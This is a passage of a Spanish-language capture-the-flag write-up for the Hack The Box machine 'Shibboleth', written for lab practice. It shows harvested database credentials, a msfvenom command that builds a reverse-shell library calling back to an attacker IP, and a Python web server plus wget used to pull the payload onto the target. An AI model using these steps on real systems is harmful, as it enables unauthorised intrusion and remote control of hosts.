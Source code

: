 ```console
### Option: DBTLSKeyFile
# DBTLSKeyFile=
### Option: DBTLSCipher
# DBTLSCipher=
### Option: DBTLSCipher13
# DBTLSCipher13=
```

Encontramos las credenciales de conexión: **`zabbix:bloooarskybluh`**, antes de nada vamos a comprobar la versión de MySQL.

```console
ipmi-svc@shibboleth:/etc/zabbix$ mysql --version
mysql  Ver 15.1 Distrib 10.3.25-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2
```

Sabiendo esto podemos buscar algún exploit en Google:

![CVE](/assets/images/hackthebox/machines/shibboleth/cve.png)

En el enlace nos indica cómo preparar el exploit utilizando **`msfvenom`** para construir el payload:

```console
p3ntest1ng:~$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.29 LPORT=9999 -f elf-so -o exploit.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: exploit.so
```

Levantamos un servidor http con python3 en nuestra máquina y descargamos el exploit desde la máquina Shibboleth con wget...

```console
p3ntest1ng:~$ sudo python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.124 - - [12/Feb/2022 15:13:53] "GET /exploit.so HTTP/1.1" 200 -
```

```console
ipmi-svc@shibboleth:/etc/zabbix$ mkdir /tmp/any0ne
ipmi-svc@shibboleth:/etc/zabbix$ cd !$
ipmi-svc@shibboleth:/tmp/any0ne$ wget http://10.10.16.29/exploit.so
--2022-02-12 14:31:20--  http://10.10.16.29/exploit.so
Connecting to 10.10.16.29:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 476 [application/octet-stream]
Saving to: ‘exploit.so’

exploit.so          100%[===================>]     476  --.-KB/s    in 0.04s   

2022-02-12 14:31:21 (11.1 KB/s) - ‘exploit.so’ saved [476/476]
```
